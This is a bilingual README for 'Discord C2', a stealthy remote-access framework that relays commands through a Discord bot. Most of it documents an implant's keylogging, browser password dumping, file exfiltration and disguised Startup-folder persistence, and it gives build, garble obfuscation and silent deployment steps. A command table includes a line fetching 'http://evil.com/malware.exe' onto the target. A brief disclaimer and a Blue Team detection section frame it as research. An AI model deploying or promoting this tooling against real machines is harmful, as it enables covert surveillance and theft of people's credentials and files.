

# 🛡️ Discord C2 - Advanced Command & Control Framework


> **⚠️ DISCLAIMER / AVERTISSEMENT**
>
> **English:** This project is a Proof of Concept (PoC) developed for **EDUCATIONAL and RESEARCH purposes only**. It demonstrates how Command and Control (C2) channels can operate over legitimate web services (Discord) to help Blue Teams understand detection strategies. **The author is not responsible for any misuse of this code.**
>
> **Français:** Ce projet est une Preuve de Concept (PoC) développée à des fins **ÉDUCATIVES et de RECHERCHE uniquement**. Il démontre comment des canaux de Command & Control (C2) peuvent opérer via des services web légitimes (Discord) afin d'aider les équipes de défense (Blue Teams) à comprendre les stratégies de détection. **L'auteur décline toute responsabilité en cas de mauvaise utilisation de ce code.**

---

## 🌍 Présentation (Français)

**Discord C2** est un framework de post-exploitation furtif qui utilise l'infrastructure de Discord comme canal de communication. En utilisant un bot Discord comme intermédiaire, le trafic C2 se fond dans le trafic HTTPS légitime, rendant la détection difficile pour les pare-feux traditionnels.

Ce projet inclut un **Agent** (implant) déployé sur la cible, un **Serveur** (contrôleur) et un **Dashboard Web** moderne pour gérer les agents, exécuter des commandes et exfiltrer des données en temps réel.

### Points Clés
*   **Furtivité** : Communication via l'API Discord (trafic chiffré TLS + chiffrement AES-256 interne).
*   **Interface Web** : Dashboard réactif pour gérer plusieurs agents simultanément.
*   **Fonctionnalités Avancées** : Keylogger, Stealer de mots de passe, Screenshots, Transfert de fichiers.

---

## 🌍 Presentation (English)

**Discord C2** is a stealthy post-exploitation framework leveraging Discord's infrastructure as a communication channel. By using a Discord Bot as a relay, C2 traffic blends with legitimate HTTPS traffic, making detection challenging for traditional firewalls.

This project features an **Agent** (implant) deployed on the target, a **Server** (controller), and a modern **Web Dashboard** to manage agents, execute commands, and exfiltrate data in real-time.

### Key Highlights
*   **Stealth**: Communication via Discord API (TLS encrypted traffic + internal AES-256 encryption).
*   **Web Interface**: Reactive dashboard to manage multiple agents simultaneously.
*   **Advanced Features**: Keylogger, Password Stealer, Screenshots, File Transfer.

---

## 🚀 Features

### 🕵️ Agent Capabilities
*   **Remote Shell**: Execute system commands (`cmd.exe`) remotely.
*   **File Operations**:
    *   `!upload`: Upload files from the C2 to the target.
    *   `!download`: Exfiltrate files from the target to the C2.
*   **Surveillance**:
    *   `!screenshot`: Capture the target's screen.
    *   `!keys`: Retrieve keystrokes (Keylogger).
*   **Credential Harvesting**:
    *   `!dumppass`: Decrypt and dump saved passwords from browsers (Chrome, Edge, Brave).
*   **Persistence**:
    *   `!persist`: Install the agent in the Windows Startup folder.
*   **Stealth & Evasion**:
    *   **Single Instance**: Uses a Global Mutex to prevent multiple instances.
    *   **Hidden Window**: Runs silently in the background.
    *   **Obfuscation**: Supports `garble` for binary obfuscation.

### 🖥️ C2 Server & Dashboard
*   **Real-time Logs**: Live feed of agent activities and exfiltrated data.
*   **Multi-Agent Support**: Manage multiple infected hosts from a single interface.
*   **File Attribution**: Automatically links downloaded files (screenshots, passwords) to the specific agent.
*   **Modern UI**: Dark mode interface with terminal-like experience.

---

## 🏗️ Architecture



1.  **Agent** checks in and listens for commands on a Discord Channel.
2.  **Operator** sends commands via the **Web Dashboard**.
3.  **Server** relays commands to Discord.
4.  **Agent** executes commands and sends results (text/files) back to Discord.
5.  **Server** retrieves results and updates the **Dashboard**.

---

## 🛠️ Setup & Installation

### 1. Prerequisites
*   **Go 1.21+** installed.
*   A **Discord Bot** created on the [Discord Developer Portal](https://discord.com/developers/applications).
*   A **Discord Server** with two private channels:
    *   `#commands` (Copy Channel ID)
    *   `#results` (Copy Channel ID)

### 2. Configuration
Rename `.env.example` to `.env` and configure your variables:

```ini
DISCORD_TOKEN=your_bot_token_here
COMMAND_CHANNEL_ID=123456789012345678
RESULT_CHANNEL_ID=123456789012345679
ENCRYPTION_KEY=this_must_be_exactly_32_bytes_long!!
```

### 3. Building

#### Automatic Build (Recommended)
Use the PowerShell script to build the agent with configuration injected and optional obfuscation.

```powershell
# Build the Agent (Client)
.\build_standalone.ps1

# Build the Server (Controller)
go build -o bin/server.exe ./cmd/server
```

*Note: The script automatically checks for `garble` to obfuscate the binary. If not found, it uses standard `go build`.*

---

## 🎮 Usage

### 1. Start the C2 Server
```bash
./bin/server.exe
```
The Web Dashboard will be available at `http://localhost:8080`.

### 2. Deploy the Agent
Transfer `bin/agent_standalone.exe` to the target machine and execute it.
It will run silently in the background.

### 3. Commands (Web Dashboard)

| Command | Description | Example |
| :--- | :--- | :--- |
| `whoami` | Basic shell command | `whoami` |
| `dir` | List directory contents | `dir` |
| `cd` | Change directory | `cd C:\Users` |
| `!screenshot` | Take a screenshot | `!screenshot` |
| `!keys` | Dump recorded keystrokes | `!keys` |
| `!dumppass` | Dump browser passwords | `!dumppass` |
| `!download` | Download a file from target | `!download C:\secret.txt` |
| `!upload` | Upload a file (URL) to target | `!upload http://evil.com/malware.exe` |
| `!persist` | Install persistence | `!persist` |

---

## 🛡️ Detection (Blue Team)

Strategies to detect this C2 activity:

1.  **Traffic Analysis**:
    *   Monitor for high-volume traffic to `discord.com` or `gateway.discord.gg` from endpoints that don't typically use Discord.
    *   Look for regular "beaconing" patterns (Heartbeats every 30s).

2.  **Process Inspection**:
    *   The agent runs as a background process. Look for unsigned binaries making network connections.
    *   Check for the Mutex `Global\DiscordC2AgentMutex`.

3.  **File Artifacts**:
    *   Persistence is installed in `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\SecurityHealthSystray.exe`.

---

## 📜 License

This project is licensed under the MIT License.
